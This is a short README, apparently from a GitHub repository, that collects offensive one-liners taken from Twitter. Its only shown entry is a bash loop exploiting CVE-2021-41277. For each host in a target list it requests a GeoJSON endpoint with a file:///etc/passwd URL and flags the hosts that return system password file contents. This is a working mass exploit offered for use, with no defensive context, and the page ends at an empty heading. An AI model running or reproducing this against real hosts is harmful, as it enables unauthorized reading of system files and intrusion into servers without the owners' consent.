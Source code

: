 # Hacking scripts I found on twitter
- Just posting all the things i found on twitter with usernames for credit

## CVE-2021-41277 one liner by @HackerGautam
cat targets.txt| while read host do;do curl --silent --insecure --path-as-is "$host/api/geojson?url=file:///etc/passwd" | grep -qs "root:x" && echo "$host \033[0;31m Vulnerable";done

## 
